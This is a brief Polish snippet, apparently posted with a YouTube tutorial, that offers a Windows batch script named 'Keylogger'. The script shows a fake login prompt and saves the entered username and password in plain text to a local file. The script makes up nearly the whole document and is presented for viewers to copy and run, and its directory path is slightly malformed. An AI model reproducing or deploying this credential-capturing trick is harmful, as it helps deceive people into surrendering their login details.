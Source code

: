 Komenda do Keyloggera z odcinka


@echo off
color a 
title Keylogger
cls
echo podaj login i haslo
echo.
echo.
cd "c\Keylogger"
set /p Uzytkownik=Uzytkownik
set /p Haslo=Haslo
echo Uzytkownik="%Uzytkownik%" haslo="%haslo%" >tekst.txt

Jeżeli coś nie działa to piszczie w komentarzach pod filmem 
link do filmu na yt: https://www.youtube.com/watch?v=Dq8QOgq-Eg8&t=4s
